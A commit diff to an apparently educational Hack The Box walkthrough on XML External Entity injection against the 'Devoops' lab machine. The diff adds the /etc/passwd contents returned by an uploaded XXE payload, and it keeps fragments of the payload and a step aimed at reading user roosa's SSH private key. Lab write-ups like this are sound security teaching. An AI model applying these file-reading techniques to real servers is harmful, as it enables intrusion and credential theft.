

Before and after one commit to HackingProfessional/HTB, a Jekyll site: the page built from _posts/2019-04-19-How-to-hack-a-website-with-XML-External-Entity-Injection.md, in a window 1280 px wide and 1400 px high, scrolled down 3066 px. Shown: the whole window at 96% size, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-04-19-How-to-hack-a-website-with-XML-External-Entity-Injection.md

````diff
--- a/_posts/2019-04-19-How-to-hack-a-website-with-XML-External-Entity-Injection.md
+++ b/_posts/2019-04-19-How-to-hack-a-website-with-XML-External-Entity-Injection.md
@@ -90,7 +90,11 @@ http://10.10.10.91:5000/upload
 
 # Exploiting XML External Entity (XXE)
 
-The following web page lets you upload an XML file, including XML elements Author, Subject and content.  For that reason, we have created an XML file with the help of the following code and saved as Attack.xml
+The following web page lets you upload an XML file, including XML elements Author, Subject and content.
+
+![passwdDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/UploadFileDevoops.png "Exploiting XML External Entity")
+
+For that reason, we have created an XML file with the help of the following code and saved as Attack.xml
 
 ```xml
 <?xml version="1.0"?>
@@ -105,13 +109,65 @@ The following web page lets you upload an XML file, including XML elements Autho
   </feed>
 ```
 
-Since the system is a Linux system, I’ve requested the /etc/passwd file.
+Since the system is a Linux system, I’ve requested the **/etc/passwd** file.
 This file will allow us to see what users are on the machine.
 Here is what came back when we uploaded the XML file to the server:
 
-![passwdDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/UploadFileDevoops.png "Exploiting XML External Entity")
+```
+ PROCESSED BLOGPOST:
+  Author: Gerh
+ Subject: BinaryChaos
+ Content: root:x:0:0:root:/root:/bin/bash
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
+sys:x:3:3:sys:/dev:/usr/sbin/nologin
+sync:x:4:65534:sync:/bin:/bin/sync
+games:x:5:60:games:/usr/games:/usr/sbin/nologin
+man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
+lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
+mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
+news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
+uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
+proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
+www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
+backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
+list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
+irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
+gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
+nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
+systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
+systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
+systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
+systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
+syslog:x:104:108::/home/syslog:/bin/false
+_apt:x:105:65534::/nonexistent:/bin/false
+messagebus:x:106:110::/var/run/dbus:/bin/false
+uuidd:x:107:111::/run/uuidd:/bin/false
+lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
+whoopsie:x:109:117::/nonexistent:/bin/false
+avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
+avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
+dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
+colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
+speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
+hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
+kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
+pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
+rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
+saned:x:119:127::/var/lib/saned:/bin/false
+usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
+osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
+git:x:1001:1001:git,,,:/home/git:/bin/bash
+roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
+sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
+blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
+
+ URL for later reference: /uploads/exploit.xml
+ File path: /home/roosa/deploy/src
+```
 
 As you can see we are visualizing the contents of the file **/etc/passwd**
+
 To continue we will intercept the requests with Burpsuite and then taking into account that this victim machine is running an SSH server it is very likely to find a private key of some user.
 
 ![BurpDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/BurpDevoops.png "Intercepting request for exploiting XXE")
@@ -132,6 +188,7 @@ To visualize the content of the user's private key *roosa*, which was identified
     <Content>&xxe;</Content>
   </feed>
 ```
+
 After uploading the previous file, the result is as follows:
 
 ![Burp2Devoops](https://hackingprofessional.github.io/HTB/assets/img/posts/Burp2Devoops.png "Intercepting request for exploiting XXE")
````
